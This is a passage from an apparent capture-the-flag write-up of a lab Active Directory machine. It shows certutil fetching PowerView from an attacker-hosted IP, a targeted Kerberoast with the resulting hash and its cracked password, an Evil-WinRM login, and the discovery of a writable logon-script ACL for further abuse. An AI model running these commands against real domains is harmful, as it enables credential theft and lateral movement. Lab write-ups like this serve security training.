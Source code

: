 We can copy PowerView onto the host and perform the attack from Windows.
```console
C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/PowerView.ps1 PowerView.ps1
C:\Users\NU_1055> powershell
PS C:\Users\NU_1055> . .\PowerView.ps1

PS C:\Users\NU_1055> Set-DomainObject -Identity 'RSA_4810' -Set @{serviceprincipalname='nonexistent/BLEED'}
PS C:\Users\NU_1055> $User = Get-DomainUser 'RSA_4810'
PS C:\Users\NU_1055> $User | Get-DomainSPNTicket | fl

$krb5tgs$23$*RSA_4810$blazorized.htb$nonexistent/BLEED*$D7234985D58C1...<SNIP>...EFC94D4506EC6C26
```

We get back the `krb5tgs` hash of the RSA user and can crack it offline.

```console
$ hashcat -m 13100 RSA_4810.hash $ROCKYOU
```

The password of the user is `(Ni7856Do9854Ki05Ng0005 #)`. 

## DACL Abuse

We can now login with Evil-WinRM and we look for ACLs that can be abused.

```console
$ evil-winrm -i 10.10.11.22 -u 'RSA_4810' -p '(Ni7856Do9854Ki05Ng0005 #)'

*Evil-WinRM* PS C:\Users\RSA_4810\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents>  . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ObjectAceType, ActiveDirectoryRights | fl

<SNIP>

IdentityReferenceName : RSA_4810
ObjectDN              : CN=SSA_6010,CN=Users,DC=blazorized,DC=htb
ObjectAceType         : Script-Path
ActiveDirectoryRights : WriteProperty

<SNIP>
```

We find one ACL for our current user that shows a WriteProperty on the script path of the `SSA_6010` user. By having this permission it could allow us to write a custom logon script that executes whenever this user tries to login to the machine. We can look if this user tried to login:
```console
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> [DateTime]::FromFileTime((Get-ADUser -Identity ssa_6010 -Properties LastLogon).LastLogon)
Saturday, November 9, 2024 4:32:38 AM
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> date
Saturday, November 9, 2024 4:32:44 AM
```
